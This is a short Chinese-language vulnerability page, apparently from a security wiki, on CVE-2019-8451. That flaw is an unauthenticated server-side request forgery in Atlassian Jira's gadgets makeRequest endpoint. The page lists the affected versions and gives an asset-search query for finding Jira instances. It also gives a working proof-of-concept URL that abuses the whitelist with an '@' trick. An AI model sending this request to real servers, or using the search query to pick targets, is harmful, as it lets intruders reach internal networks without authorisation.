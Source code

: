 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430132316629.png)

验证POC

```java
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![img](/assets/PeiQi-Wiki/img/1651296061837-7e8e8f44-15e8-46c4-96f4-62fbe1602493.png)